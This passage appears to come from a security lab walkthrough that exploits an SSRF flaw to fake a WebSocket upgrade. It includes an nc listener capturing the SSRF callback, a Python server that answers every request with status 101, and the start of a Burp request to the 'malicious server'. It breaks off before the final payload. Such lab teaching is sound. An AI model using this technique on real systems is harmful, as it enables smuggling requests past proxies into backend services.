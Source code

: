 We can use `nc` in our AttackBox to check if we can direct a request to ourselves. We should get a response similar to this one:

```shell-session
user@attackbox$ nc -lvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.235.194 52988
GET /test HTTP/1.1
Host: 10.10.11.155:5555
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

This means we can successfully use the SSRF vulnerability to influence the response of the backend server. All we need to do is spin up a web server that returns a `101` status, allowing us to fake a WebSocket upgrade.

Setting up the Attacker's Web Server

We can quickly set up a web server that responds with status 101 to every request with the following Python code:

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Let's save the code to a file named myserver.py in our AttackBox and run it with the following command:

```shell-session
user@attackbox$ python3 myserver.py 5555
```

This should spin up a web server on port 5555 that will reply with a 101 status code to any request.

#### Faking a WebSocket

We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to /check-url against our malicious server. The request should look like this:
